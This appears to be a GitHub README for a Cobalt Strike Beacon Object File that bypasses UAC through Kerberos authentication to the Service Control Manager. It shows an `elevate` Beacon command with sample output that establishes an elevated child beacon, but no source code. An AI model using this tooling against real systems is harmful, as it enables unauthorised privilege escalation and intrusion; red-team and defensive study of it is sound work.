

# SCMUACBypass

A BOF which authenticates to the Service Control Manager via Kerberos and LPEs using a service binary payload.  This is designed to be used in combination with Kerberos relay attack primitives - the appropriate ticket(s) must already be in your cache.

The included Aggressor script registers a new `elevate` command in Beacon.

```text
beacon> elevate svc-exe-krb tcp-local

AcquireCredentialsHandleHook called for package Negotiate
Changing to Kerberos package

InitializeSecurityContext called for target HOST/127.0.0.1
InitializeSecurityContext status = 00090312

InitializeSecurityContext called for target HOST/127.0.0.1
InitializeSecurityContext status = 00000000

[+] established link to child beacon: 172.16.0.100
```



# References

- https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82